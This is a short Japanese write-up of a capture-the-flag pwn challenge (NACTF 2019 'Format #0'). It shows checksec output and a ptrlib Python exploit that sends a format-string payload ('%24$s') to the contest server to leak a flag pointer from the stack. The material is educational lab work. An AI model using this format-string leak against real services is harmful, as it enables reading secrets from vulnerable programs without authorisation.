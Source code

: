 # [pwn 200pts] Format #0 - Network Academia CTF 2019
32ビットバイナリで、全部無効です。
```
$ checksec -f format-0
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   71 Symbols     No       0               4       format-0
```

FSBがありますが、フラグのアドレスがスタックに積まれているので%sで読むだけです。
```python
from ptrlib import *

#sock = Process("./format-0")
sock = Socket("shell.2019.nactf.com", 31782)
payload = '%{}$s'.format(8 + 64 // 4)
sock.sendlineafter(">", payload)

sock.interactive()
```

# 感想
簡単ですね。
